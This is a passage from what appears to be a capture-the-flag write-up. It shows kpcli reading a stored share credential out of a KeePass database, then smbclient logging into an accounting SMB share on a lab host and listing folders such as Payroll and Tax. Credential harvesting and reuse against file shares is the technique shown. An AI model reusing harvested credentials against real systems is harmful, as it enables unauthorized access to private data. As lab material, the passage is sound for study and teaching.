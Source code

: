 ```
SOFTWARE/                                                                                             
VENDORS/
WINDOWS/
kpcli:/WORK> cd WINDOWS
kpcli:/WORK/WINDOWS> ls
=== Groups ===
Desktops/
Servers/
Shares/
kpcli:/WORK/WINDOWS> cd Shares
kpcli:/WORK/WINDOWS/Shares> ls
=== Entries ===
0. TALLY ACCT share                                                       
kpcli:/WORK/WINDOWS/Shares> show 0

Title: TALLY ACCT share
Uname: Finance
 Pass: Acc0unting
  URL: 
Notes: 
```

We can probably login to the smbserver with these creds:
`Finance / Acc0unting`


<hr width="300" size="10">



<h3>Smbclient</h3>

```
smbclient -U Finance //10.10.10.59/ACCT

Enter WORKGROUP\Finance's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Sep 18 01:58:18 2017
  ..                                  D        0  Mon Sep 18 01:58:18 2017
  Customers                           D        0  Sun Sep 17 16:28:40 2017
  Fees                                D        0  Mon Aug 28 17:20:52 2017
  Invoices                            D        0  Mon Aug 28 17:18:19 2017
  Jess                                D        0  Sun Sep 17 16:41:29 2017
  Payroll                             D        0  Mon Aug 28 17:13:32 2017
  Reports                             D        0  Fri Sep  1 16:50:11 2017
  Tax                                 D        0  Sun Sep 17 16:45:47 2017
  Transactions                        D        0  Wed Sep 13 15:57:44 2017
  zz_Archived                         D        0  Fri Sep 15 16:29:35 2017
  zz_Migration                        D        0  Sun Sep 17 16:49:13 2017

                8387839 blocks of size 4096. 607797 blocks available
smb: \> 
```
